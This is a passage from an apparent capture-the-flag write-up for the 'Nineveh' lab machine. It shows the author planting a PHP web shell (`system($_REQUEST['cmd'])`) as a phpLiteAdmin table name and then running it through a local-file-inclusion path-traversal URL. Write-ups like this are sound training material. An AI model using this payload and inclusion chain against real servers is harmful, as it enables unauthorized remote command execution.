 Try read some other sensitive file, I got the result `File name too long.`.

+ We need have a backdoor with the length long enough.

+ The file name must contain name `ninevehNotes`.

### PHP Code Injection

Using exploit at `php/webapps/24044.txt`, I create 1 database named `ninevehNotes.php`.

![](images/7.png)

Create new table name `<?php system($_REQUEST['cmd'])?>`.

![](images/8.png)

The database at `/var/tmp/ninevehNotes.php` contain php execute code have been created. Now I have a backdoor `ninevehNotes.php`.

![](images/10.png)

### PHP Backdoor

Back to LFI vulnerability, I execute the backdoor with command `id` to confirm it.

```
http://nineveh.htb/department/manage.php?notes=../../../../../var/tmp/ninevehNotes.php&cmd=id
```

![](images/11.png)
